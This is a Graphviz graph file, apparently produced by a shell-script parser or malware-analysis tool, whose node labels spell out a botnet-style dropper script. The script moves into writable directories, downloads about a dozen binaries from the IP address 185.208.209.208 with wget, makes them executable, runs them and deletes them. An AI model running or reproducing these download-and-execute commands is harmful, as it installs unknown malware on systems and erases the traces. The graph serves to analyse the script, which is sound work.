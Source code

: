 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://185.208.209.208/mba "];
10 -> 12 [label=";,"];
12 [label="chmod +x mba "];
12 -> 14 [label=";,"];
14 [label="./mba "];
14 -> 16 [label=";,"];
16 [label="rm -rf mba "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://185.208.209.208/ebs "];
28 -> 30 [label=";,"];
30 [label="chmod +x ebs "];
30 -> 32 [label=";,"];
32 [label="./ebs "];
32 -> 34 [label=";,"];
34 [label="rm -rf ebs "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://185.208.209.208/ew "];
46 -> 48 [label=";,"];
48 [label="chmod +x ew "];
48 -> 50 [label=";,"];
50 [label="./ew "];
50 -> 52 [label=";,"];
52 [label="rm -rf ew "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://185.208.209.208/aw "];
64 -> 66 [label=";,"];
66 [label="chmod +x aw "];
66 -> 68 [label=";,"];
68 [label="./aw "];
68 -> 70 [label=";,"];
70 [label="rm -rf aw "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://185.208.209.208/ftr "];
82 -> 84 [label=";,"];
84 [label="chmod +x ftr "];
84 -> 86 [label=";,"];
86 [label="./ftr "];
86 -> 88 [label=";,"];
88 [label="rm -rf ftr "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://185.208.209.208/er "];
100 -> 102 [label=";,"];
102 [label="chmod +x er "];
102 -> 104 [label=";,"];
104 [label="./er "];
104 -> 106 [label=";,"];
106 [label="rm -rf er "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://185.208.209.208/re "];
118 -> 120 [label=";,"];
120 [label="chmod +x re "];
120 -> 122 [label=";,"];
122 [label="./re "];
122 -> 124 [label=";,"];
124 [label="rm -rf re "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://185.208.209.208/ty "];
136 -> 138 [label=";,"];
138 [label="chmod +x ty "];
138 -> 140 [label=";,"];
140 [label="./ty "];
140 -> 142 [label=";,"];
142 [label="rm -rf ty "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://185.208.209.208/ke "];
154 -> 156 [label=";,"];
156 [label="chmod +x ke "];
156 -> 158 [label=";,"];
158 [label="./ke "];
158 -> 160 [label=";,"];
160 [label="rm -rf ke "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://185.208.209.208/as "];
172 -> 174 [label=";,"];
174 [label="chmod +x as "];
174 -> 176 [label=";,"];
176 [label="./as "];
176 -> 178 [label=";,"];
178 [label="rm -rf as "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://185.208.209.208/fg "];
190 -> 192 [label=";,"];
192 [label="chmod +x fg "];
192 -> 194 [label=";,"];
194 [label="./fg "];
194 -> 196 [label=";,"];
196 [label="rm -rf fg "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://185.208.209.208/sddf "];
208 -> 210 [label=";,"];
210 [label="chmod +x sddf "];
210 -> 212 [label=";,"];
212 [label="./sddf "];
212 -> 214 [label=";,"];
214 [label="rm -rf sddf "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://185.208.209.208/tel "];
226 -> 228 [label=";,"];
228 [label="chmod +x tel "];
228 -> 230 [label=";,"];
230 [label="./tel "];
230 -> 231 [label=";,"];
}
